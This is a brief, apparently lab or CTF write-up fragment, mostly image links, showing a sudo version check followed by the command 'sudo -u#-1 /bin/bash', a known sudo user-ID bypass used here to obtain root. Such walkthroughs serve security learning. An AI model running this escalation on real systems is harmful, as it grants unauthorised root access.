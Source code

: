 ![](./IMG/48.png)

> First, I confirm the sudo version 

```
sudo -V 
```

![](./IMG/42.png)

> Then I followed the instruction in this exploit code to get root 

```
sudo -u#-1 /bin/bash
```

![](./IMG/43.png)

> Get root permission 

![](./IMG/44.png)

